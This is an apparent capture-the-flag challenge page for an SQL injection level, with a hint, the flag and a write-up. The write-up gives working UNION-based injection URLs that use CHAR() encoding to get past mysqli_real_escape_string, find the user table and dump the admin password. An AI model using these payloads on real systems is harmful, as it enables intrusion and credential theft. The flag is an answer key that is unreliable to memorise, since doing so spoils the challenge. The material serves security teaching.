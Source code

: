 # Injection 3

## Description

We've finally wised up and escaped our SQL query input. There's no way we could get hacked again!

Category: Difficult

## Hint

You'll need the name of the table that user information is stored in. There should be a SQL function that can help you create a string while getting past the mysqli_real_escape_string function.

## Flag

flag{w0w_$UcH_1nJ3c710N}

## Write-Up

This challenge contains a more difficult SQL injection vulnerability, where you must first find the name of the
table used to store user information, and then perform a similar query to Injection 2 to find the admin password,
and finally log in to find the flag.

Start by trying to get the table name out of information_schema.TABLES. Due to the mysqli_real_escape_string function 
used to escape the user's input, we can't just search for a table name using LIKE "%user"; what we can do is use SQL's
CONCAT function to get around the escape function. After some trial and error on the number of table columns, we can
get the table name by using this URL:

	{base_url}/lookup_user.php?id=1 AND 1=0 UNION SELECT TABLE_NAME AS id, TABLE_NAME AS username, TABLE_NAME as password, TABLE_NAME as email, TABLE_NAME as authorization FROM information_schema.TABLES WHERE TABLE_NAME LIKE CONCAT(CHAR(37), CHAR(117), CHAR(115), CHAR(101), CHAR(114), CHAR(115)) LIMIT 1

This returns 'ultra_secret_users' for all attributes - the name of the table we want to perform our query on. Similar to
Injection 2's query, we will need to return false rows to trick the query into returning real information:

	{base_url}/lookup_user.php?id=1 AND 0=1 UNION SELECT username, password as email, password as authorization, password as id, password as authorization from ultra_secret_users limit 1
	
This gives us the password for the admin user - login with the admin's credentials and the flag is revealed!
